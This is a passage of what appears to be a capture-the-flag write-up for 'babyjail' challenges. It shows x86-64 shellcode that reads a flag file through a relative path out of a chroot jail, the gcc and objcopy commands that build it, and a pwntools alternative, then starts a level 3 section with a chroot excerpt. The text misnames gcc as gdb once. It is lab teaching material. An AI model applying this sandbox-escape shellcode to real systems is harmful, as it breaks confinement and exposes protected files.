 ```armasm

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "../../flag"
```

* We can compile the program using `gdb`.

```
~$ gcc -nostdlib ./shellcode.s -o ./shellcode
```

* Let's extract the .text section using `objcopy`.

```
~$ objcopy --dump-section .text=./shellcode.bin ./shellcode
```

* Now we can send this code as STDIN.

```
~$ /challenge/babyjail_level2 / < shellcode.bin
```

* Note that we are in the `hacker` directory.
* The `shellcraft` module from `pwn` allows us to create a shellcode easily. You could also use this method.

```python
from pwn import *

elf = ELF("/challenge/babyjail_level2")

context.arch="amd64"

shellcode = asm(shellcraft.readfile("flag", 1))

p = process(["/challenge/babyjail_level2", "/"], cwd="/")
p.sendline(shellcode)
p.interactive()
```

* However creating our own shellcode allows us to have more control over it.



## level 3

> You may open a specified file, as given by the first argument to the program (argv\[1]). You may upload custom shellcode to do whatever you want.

* On examining the code for this level, we can see that this time we have been put into the jail.

```c
assert(chroot(jail_path) == 0);

puts("Moving the current working directory into the jail.\n");
assert(chdir("/") == 0);
```
